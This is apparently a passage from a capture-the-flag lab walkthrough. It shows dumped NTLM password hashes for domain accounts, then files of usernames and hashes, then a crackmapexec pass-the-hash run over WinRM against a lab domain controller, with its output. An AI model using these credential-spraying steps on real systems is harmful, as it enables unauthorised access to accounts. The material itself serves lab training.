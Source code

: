 ```
J.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939:::
P.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::
R.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
D.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
G.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::
...
```

Nice! Next, we will need to check if any users haven't changed their password since the audit occurred. To do this, we need to create a file containing the domain usernames and a file with the hashes.

```
┌──(kali㉿kali)-[~]
└─$ cat users   
Administrator
Guest
krbtgt
M.Mason
K.Keen
L.Livingstone
J.Johnson
V.Ventz
S.Swanson
P.Parker
R.Robinson
D.Durant
G.Goldberg

┌──(kali㉿kali)-[~]
└─$ cat hashes  
aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f
aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d
aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b
aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45
aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c
aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808
aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726
aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c
aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939
aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe982123301dd19fe
aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac
aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35
aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2
```

Then, pass these files to `crackmapexec`.

```
┌──(kali㉿kali)-[~]
└─$ crackmapexec winrm 192.168.120.181 -u users -H hashes
WINRM       192.168.120.181 5985   RESOURCEDC       [*] Windows 10.0 Build 17763 (name:RESOURCEDC) (domain:resourced.local)
WINRM       192.168.120.181 5985   RESOURCEDC       [*] http://192.168.120.181:5985/wsman
WINRM       192.168.120.181 5985   RESOURCEDC       [-] resourced.local\Administrator:12579b1666d4ac10f0f59f300776495f
WINRM       192.168.120.181 5985   RESOURCEDC       [-] resourced.local\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0
...
WINRM       192.168.120.181 5985   RESOURCEDC       [-] resourced.local\L.Livingstone:3004b16f88664fbebfcb9ed272b0565b
```